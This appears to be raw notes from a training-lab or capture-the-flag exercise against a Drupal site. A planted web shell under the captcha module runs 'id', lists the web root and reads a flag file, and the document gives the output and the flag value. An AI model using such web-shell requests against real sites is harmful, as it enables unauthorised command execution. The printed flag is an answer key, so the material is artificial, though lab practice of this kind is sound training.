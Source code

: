 http://drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

http://drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=ls%20-l%20%2Fvar%2Fwww%2Fdrupal.inlanefreight.local

total 240 -rw-r--r-- 1 www-data www-data 95 Jun 17 2020 INSTALL.txt -rw-r--r-- 1 www-data www-data 18092 Nov 16 2016 LICENSE.txt -rw-r--r-- 1 www-data www-data 5924 Jun 17 2020 README.txt -rw-r--r-- 1 www-data www-data 313 Jun 17 2020 autoload.php -rw-r--r-- 1 www-data www-data 3052 Jun 17 2020 composer.json -rw-r--r-- 1 www-data www-data 151483 Jun 17 2020 composer.lock drwxr-xr-x 12 www-data www-data 4096 Jun 17 2020 core -rw-r--r-- 1 www-data www-data 1507 Jun 17 2020 example.gitignore -rw-r--r-- 1 root root 26 Sep 21 2021 flag_6470e394cbf6dab6a91682cc8585059b.txt -rw-r--r-- 1 www-data www-data 549 Jun 17 2020 index.php drwxr-xr-x 5 www-data www-data 4096 Sep 16 2021 modules drwxr-xr-x 2 www-data www-data 4096 Jun 17 2020 profiles -rw-r--r-- 1 www-data www-data 1594 Jun 17 2020 robots.txt drwxr-xr-x 3 www-data www-data 4096 Jun 17 2020 sites drwxr-xr-x 2 www-data www-data 4096 Jun 17 2020 themes -rw-r--r-- 1 www-data www-data 848 Jun 17 2020 update.php drwxr-xr-x 20 www-data www-data 4096 Jun 17 2020 vendor -rw-r--r-- 1 www-data www-data 4566 Jun 17 2020 web.config

http://drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=cat%20%2Fvar%2Fwww%2Fdrupal.inlanefreight.local%2Fflag_6470e394cbf6dab6a91682cc8585059b.txt
DrUp@l_drUp@l_3veryWh3Re!

